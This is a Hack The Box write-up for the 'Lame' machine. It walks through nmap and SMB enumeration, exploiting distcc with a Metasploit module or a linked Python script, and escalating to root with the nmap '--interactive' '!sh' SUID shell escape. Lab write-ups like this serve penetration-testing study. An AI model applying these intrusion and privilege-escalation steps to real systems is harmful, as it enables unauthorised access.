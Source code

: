 ```yaml
---
layout: PostSimple
date: 2019-12-01
title:     "Hack The Box - Lame"
tags: ['linux','easy','SUID','cve']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/1](https://www.hackthebox.eu/home/machines/profile/1)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/3.png)

Lets check other ports.

## SMB Enumeration

First I checked any shares available and it seems we have Read and Write access on `tmp`.
```bash
root@kali:~# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```
I get some error if I tried connecting to it.

## Getting User Shell

We know port `3632` running `Distcc` So I googled for any exploits available and found an exploit/

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/4.png)

We got shell and found an user ``makis``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/5.png)

### Without Metasploit

There is a python script from Github
> https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

I tried using that python script and didn't changed any and got the shell as `daemon`.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/8.png)

## Privilege Escalation

Uploaded my enumeration Script and 
Found some SETUID.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/7.png)

We got the Root!!

